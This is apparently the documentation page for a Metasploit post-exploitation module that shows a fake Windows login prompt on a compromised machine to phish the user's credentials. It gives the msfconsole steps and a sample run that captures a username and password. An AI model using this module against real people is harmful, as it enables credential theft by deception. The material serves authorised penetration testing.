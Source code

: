 
## Vulnerable Application

  This module is able to perform a phishing attack on the target by
  popping up a login prompt. When the user fills credentials in the
  login prompt, the credentials will be sent to the attacker. The
  module is able to monitor for new processes and popup a login prompt
  when a specific process is starting. Tested on Windows 7.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/phish_windows_credentials```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **DESCRIPTION**

  Message shown in the login prompt.

  **PROCESS**

  Prompt if a specific process is started by the target. (e.g. `calc.exe` or specify * for all processes.)

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49164) at 2019-12-17 11:47:06 -0700

  msf > use post/windows/gather/phish_windows_credentials
  msf post(windows/gather/phish_windows_credentials) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/phish_windows_credentials) > set PROCESS *
    PROCESS => *
  msf post(windows/gather/phish_windows_credentials) > exploit

  [+] PowerShell is installed.
  [*] Monitoring new processes.
  [*] [System Process] is already running. Waiting on new instances to start
  [*] System is already running. Waiting on new instances to start
  ...snip...
  [*] New process detected: 2744 notepad.exe
  [*] Killing the process and starting the popup script. Waiting on the user to fill in his credentials...
  [+]

  [+] UserName                   Domain                     Password
  --------                   ------                     --------
  MY                         MY-PC                      P@ssw0rd1!



  [*] Post module execution completed
  ```
